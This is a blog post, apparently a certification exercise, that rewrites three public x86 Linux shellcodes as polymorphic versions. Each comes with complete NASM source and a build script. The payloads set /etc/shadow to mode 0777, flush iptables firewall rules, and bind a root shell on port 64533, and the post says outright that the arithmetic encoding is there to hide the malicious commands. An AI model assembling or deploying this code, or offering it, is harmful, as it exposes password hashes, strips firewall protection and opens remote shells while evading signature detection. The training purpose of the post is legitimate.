

# Assignment #6 - Creating Polymorphic Versions of Shellcode Samples  

**Exercise description:** Generating a polymorphic version of three shellcodes stored on [Shell-Storm](http://shell-storm.org/shellcode/). The polymorphic versions cannot be larger than 150% of the existing shellcode.

**Code:** The code used within this article can be found [here](https://github.com/SDugo/sdugo.github.io/tree/master/SLAE/Assignment_6/Code)

To complete this task the following system was used:
###### `Linux 3.11.0-15-generic #25~precise1-Ubuntu SMP i686 i386 GNU/Linux`

The three selected shellcodes for this exercise are the following:

1. shellcode-593
2. shellcode-825
3. shellcode-672

## shellcode-593

* *Original shellcode:* [http://shell-storm.org/shellcode/files/shellcode-593.php](http://shell-storm.org/shellcode/files/shellcode-593.php)
* *Functionality:* Changes the access value of /etc/shadow file to 0777
* *Original size:* 29 bytes
* *Final size:* 42 bytes (144%)

This shellcode can be decoded using an [online disassembler](https://defuse.ca/online-x86-assembler.htm#disassembly2)


``Original shellcode disassembled``

To apply polymorphism to this shellcode and maintain a good size (not bigger than 150%), the two's complement method has been applied.

````
; Filename: poly_shellcode_593.nasm
; Author:  Samuel Dugo
; SLAE-ID:    SLAE-1376
; Size:       42 bytes (144%)
; Purpose: Polymorphic version of shellcode found on http://shell-storm/shellcode/files/shellcode-593.php 

global _start			

section .text
_start:
	xor    eax,eax
	push   eax		;adds null terminator
        mov    ecx,0x88909B9F  ;complement of 0x776f6461 "woda"
        neg    ecx
	push   ecx
	mov    ecx,0x978CD09D  ;complement of 0x68732f63 "hs/c"
        neg    ecx
	push   ecx
        mov    ecx,0x8B9AD0D1  ;complement of 0x74652f2f "te//"
	neg    ecx
        push   ecx
	mov    ebx,esp
        add    al,0xff
        add    ah,0x1
        mov    ecx,eax         ;ecx contains 511 to change /etc/shadow to 0777
	sub    ax,0x1f0        ;eax contains 0xf for syscall sys_chmod (0x0f)
	int    0x80
````
``Code for poly_shellcode_593.nasm``

Then, it is necessary to compile the file using the following bash script.
````
#!/bin/bash
#Example of execution: ./compile.sh poly_shellcode_593

echo '[+] Assembling with Nasm ... '
nasm -f elf32 -o $1.o $1.nasm

echo '[+] Linking ...'
ld -z execstack -o $1 $1.o

echo '[+] Done!'
````
``compile.sh``

After that, it is possible to execute the shellcode and verify that */etc/shadow* does change its permission after execution using a *root/sudo* user.


``/etc/shadow permission changed``


``Polymorphism demo for poly_shellcode_593.nasm``

## shellcode-825

* *Original shellcode:* [http://shell-storm.org/shellcode/files/shellcode-825.php](http://shell-storm.org/shellcode/files/shellcode-825.php)
* *Functionality:* Flushes iptables on Linux x86
* *Original size:* 43 bytes
* *Final size:* 56 bytes (130%)


``Original shellcode disassembled``

First, it is necessary to create an iptable rule using the following command: **sudo iptables -I INPUT -p tcp --dport 443 -j ACCEPT**


``Firewall rule to accept HTTPS incoming connections``

The polymorphic version of this shellcode will add or substract values from *EDX* to push the desired value to the stack. This way, it seems that the code is just loading the result of arithmetic operations on the stack, but the result of the arithmetic operations are the commands that need to be loaded for the malicious payload to be executed.

````
; Filename: poly_shellcode_825.nasm
; Author:  Samuel Dugo
; SLAE-ID:    SLAE-1376
; Size:       56 bytes (130%)
; Purpose: Polymorphic version of shellcode found on http://shell-storm/shellcode/files/shellcode-825.php

global _start			

section .text
_start:

    sub    eax,eax         ;similar to "xor eax,eax"
    cdq                    ;clears edx
    push   eax             ;adds null terminator
    mov    dx,0x462e
    dec    edx
    push   edx             ;pushes "-F"
    mov    esi,esp         ;saves the argument on esi
    push   eax             ;adds null terminator
    add    edx,0x73652635
    push   edx             ;pushes "bles"
    sub    edx,0x11F0FBF9
    push   edx             ;pushes "ipta"
    sub    edx,0x32060707
    push   edx             ;pushes "bin/"
    add    edx,0x43C0C5CD
    push   edx             ;pushes "///s"
    mov    ebx,esp         ;saves the command on ebx
    push   eax             ;adds null terminator
    push   esi             ;adds arguments
    push   ebx             ;adds command
    mov    ecx,esp         ;saves the whole command on ecx
    cdq                    ;clears edx
    mov    al,0xbb
    sub    al,0xb0         ;loads 0x0b for sys_execve
    int    0x80
````
``Code for poly_shellcode_825.nasm``

Then, it is necessary to compile the file using the following bash script.
````
#!/bin/bash
#Example of execution: ./compile.sh poly_shellcode_825

echo '[+] Assembling with Nasm ... '
nasm -f elf32 -o $1.o $1.nasm

echo '[+] Linking ...'
ld -z execstack -o $1 $1.o

echo '[+] Done!'
````
``compile.sh``

After that, it is possible to execute the shellcode and verify that the firewall rule created for this exercise has been removed.



``Code execution flushes the iptables rules``


``Polymorphism demo for poly_shellcode_825.nasm``

## shellcode-672

* *Original shellcode:* [http://shell-storm.org/shellcode/files/shellcode-672.php](http://shell-storm.org/shellcode/files/shellcode-672.php)
* *Functionality:* Binds a shell on port 64533
* *Original size:* 97 bytes
* *Final size:* 97 bytes (0%)

This shellcode can be decoded using an [online disassembler](https://defuse.ca/online-x86-assembler.htm#disassembly2)

````
0:  6a 66                   push   0x66
2:  6a 01                   push   0x1
4:  5b                      pop    ebx
5:  58                      pop    eax
6:  99                      cdq
7:  52                      push   edx
8:  6a 01                   push   0x1
a:  6a 02                   push   0x2
c:  89 e1                   mov    ecx,esp
e:  cd 80                   int    0x80
10: 89 c6                   mov    esi,eax
12: 6a 66                   push   0x66
14: 58                      pop    eax
15: 43                      inc    ebx
16: 52                      push   edx
17: 66 68 fc 15             pushw  0x15fc
1b: 66 53                   push   bx
1d: 89 e1                   mov    ecx,esp
1f: 6a 10                   push   0x10
21: 51                      push   ecx
22: 56                      push   esi
23: 89 e1                   mov    ecx,esp
25: cd 80                   int    0x80
27: 6a 66                   push   0x66
29: 58                      pop    eax
2a: 43                      inc    ebx
2b: 43                      inc    ebx
2c: 6a 05                   push   0x5
2e: 56                      push   esi
2f: cd 80                   int    0x80
31: 6a 66                   push   0x66
33: 58                      pop    eax
34: 43                      inc    ebx
35: 52                      push   edx
36: 52                      push   edx
37: 56                      push   esi
38: 89 e1                   mov    ecx,esp
3a: cd 80                   int    0x80
3c: 89 c3                   mov    ebx,eax
3e: 6a 3f                   push   0x3f
40: 58                      pop    eax
41: 31 c9                   xor    ecx,ecx
43: cd 80                   int    0x80
45: 6a 3f                   push   0x3f
47: 58                      pop    eax
48: 41                      inc    ecx
49: cd 80                   int    0x80
4b: 31 c0                   xor    eax,eax
4d: 50                      push   eax
4e: 68 2f 2f 73 68          push   0x68732f2f
53: 68 2f 62 69 6e          push   0x6e69622f
58: 89 e3                   mov    ebx,esp
5a: 99                      cdq
5b: 50                      push   eax
5c: b0 0b                   mov    al,0xb
5e: 59                      pop    ecx
5f: cd 80                   int    0x80
````
``Original shellcode disassembled``

In order to maintain the same size of the shellcode while creating a polymorphic code, the following goals must be achieved:

* Optimizing the current shellcode to save space
* Combining addition/negation techniques to hide the main parts of the code

````
; Filename: poly_shellcode_672.nasm
; Author:  Samuel Dugo
; SLAE-ID:    SLAE-1376
; Size:       97 bytes (0%)
; Purpose: Polymorphic version of shellcode found on http://shell-storm/shellcode/files/shellcode-672.php

global _start			

section .text
_start:

;socket creation
	push   0x66
	push   0x1
	pop    ebx
	pop    eax
	cdq
	push   edx
	push   ebx
	push   0x2
	mov    ecx,esp
	int    0x80
;binding socket to port
	mov    esi,eax
	push   0x66
        pop    eax
	inc    ebx
	push   edx
	mov    di,0x15fd     ;port number plus one in network order 
	dec    edi           ;polymorph technique to get the desired port number
	push   edi
	push   bx
	mov    ecx,esp
	push   0x10
	push   ecx
	push   esi
	mov    ecx,esp
	int    0x80
;listening for incoming connections
        push   0x66
	inc    ebx
	inc    ebx
        pop    eax
	push   0x5
	push   esi
	int    0x80
;accepting incoming connections
        push   0x66
	inc    ebx
        pop    eax
	push   edx
	push   edx
	push   esi
	mov    ecx,esp
	int    0x80
;redirecting STDIN,STDOUT to the socket
;using this code is possible optimize the original code
	mov    ebx,eax
	push   0x2
        pop    ecx
dup_loop:
	push   0x3f
	pop    eax
	dec    ecx
	int    0x80
	jne    dup_loop
;launching the shell on the socket
	push   ecx            ;pushes null terminator
	mov    esi,0x68732f2e 
	inc    esi            ;esi is 0x68732f2f which means "hs//"
	push   esi
        mov    esi,0x91969DD0
        not    esi            ;esi is 0x6e69622f which means "nib/"
	push   esi
	mov    ebx,esp
	push   edx
	mov    al,0xb
	int    0x80
````
``Code for poly_shellcode_672.nasm``

Then, it is necessary to compile the file using the following bash script.
````
#!/bin/bash
#Example of execution: ./compile.sh poly_shellcode_672

echo '[+] Assembling with Nasm ... '
nasm -f elf32 -o $1.o $1.nasm

echo '[+] Linking ...'
ld -z execstack -o $1 $1.o

echo '[+] Done!'
````
``compile.sh``

After that, it is possible to execute the shellcode and verify that there is a bind shell on port 64533.


``Code execution``


``Polymorphism demo for poly_shellcode_672.nasm``

---

*This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:*

*https://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/*

*Student ID: SLAE-1376*
